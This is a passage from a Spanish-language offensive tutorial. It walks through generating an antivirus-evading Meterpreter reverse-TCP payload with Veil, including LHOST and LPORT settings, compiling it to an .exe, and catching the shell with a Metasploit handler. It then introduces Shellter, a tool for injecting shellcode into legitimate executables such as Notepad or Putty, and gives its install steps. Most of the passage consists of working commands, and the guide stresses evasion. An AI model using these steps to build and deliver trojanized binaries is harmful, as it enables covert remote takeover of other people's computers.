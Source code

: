 ```bash
use powershell/meterpreter/rev_tcp
```

4. Configura:

```
set LHOST 192.168.1.10
set LPORT 4444
generate
```

5. Compila:

Veil creará un `.bat` o `.exe` FUD como:

```
/usr/share/veil/output/compiled/RevMeterpreter.exe
```

6. En Kali, corre Metasploit:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
exploit
```

---

### 🐚 2. **Shellter**

#### 📌 ¿Qué es Shellter?

**Shellter** es una herramienta para **inyectar shellcode** en archivos `.exe` legítimos (como Notepad o Putty), de forma **dinámica y evasiva**.

Funciona en Windows y es ideal para usar con Wine en Kali.

---

#### 🔧 Instalación de Shellter

1. Descarga desde [https://www.shellterproject.com/download](https://www.shellterproject.com/download)

2. Extrae el ZIP:

```bash
unzip shellter.zip -d shellter
cd shellter
```

3. Ejecuta con Wine:

```bash
wine shellter.exe
```

---